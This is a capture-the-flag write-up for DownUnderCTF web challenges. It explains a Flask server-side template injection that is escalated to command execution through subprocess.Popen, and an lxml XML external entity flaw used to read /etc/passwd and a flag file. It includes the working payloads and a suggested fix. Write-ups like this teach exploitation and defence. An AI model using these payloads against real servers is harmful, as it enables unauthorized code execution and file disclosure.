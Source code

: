 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     I am Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available classes, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: ''.__class__.__base__.__subclasses__()[213]

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag

- Flag payload

      Payload: ''.__class__.__base__.__subclasses__()[213]("cat flag",shell=True,stdout=-1).communicate()

![image](https://github.com/user-attachments/assets/9312e1e3-ace1-42cc-8fff-53d6714c7bda)

- Flag-:```DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}```

---------------------------------------

### Challenge: Zoo Feedback form

---------------------------------------

![image](https://github.com/user-attachments/assets/25cbd005-207a-423c-b2e1-9403eb6efbb7)

- After reviewing the source code, I noticed that `resolve_entities` was set to `True` which forces lxml parser to resolve external entities. In a whole, the main vulnerability is `XML External Entity Expansion` which allows an attacker to inject xml entities into a web application.

  Vulnerable Code:
            
            try:
               parser = etree.XMLParser(resolve_entities=True)

- Fix: Set resolve_entities to `False`

- I intercepted the request with burpsuite

![image](https://github.com/user-attachments/assets/4da48e9d-c2f3-42ca-92b1-aeb1e05ba5ac)

- I used this payload to read the `/etc/passwd` file

  Payload:

      <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
                  <root>
                 <feedback>
                  &example;
                 </feedback>
                  </root>

![image](https://github.com/user-attachments/assets/7451bb98-b2c6-47f4-8c3b-17f946a889f2)

- Then, I read the flag located at `/app/flag.txt`.

            <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
                        <root>
                       <feedback>
                          &example;
                        </feedback>
                        </root>

![image](https://github.com/user-attachments/assets/ab20d730-43d0-48d2-99bd-f933e65dc8ee)

- Flag-:```DUCTF{emU_say$_he!!0_h0!@_ci@0}```
--------------------------

### Challenge: I am Confusion

--------------------------

![image](https://github.com/user-attachments/assets/9a30d811-d76a-4d40-9a0f-1dca3b2452ee)

- Source code:
--------------------------
### References:
--------------------------

- Lxml.etree's XXE Attack: [Codeql's blog](https://codeql.github.com/codeql-query-help/python/py-xxe/)
- XXE's details: [Hacktrickz](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
